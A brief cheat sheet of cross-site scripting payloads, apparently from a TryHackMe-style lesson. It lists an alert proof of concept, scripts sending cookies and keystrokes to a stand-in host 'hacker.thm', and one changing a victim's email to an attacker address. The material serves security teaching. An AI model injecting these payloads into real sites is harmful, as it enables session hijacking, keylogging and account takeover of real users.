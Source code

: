 - XSS: Cross-site Scripting
    - Proof Of Concept <script>alert('XSS');</script>
    - Session Stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
    - Key Logger <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
    - Business Logic <script>user.changeEmail('attacker@hacker.thm');</script>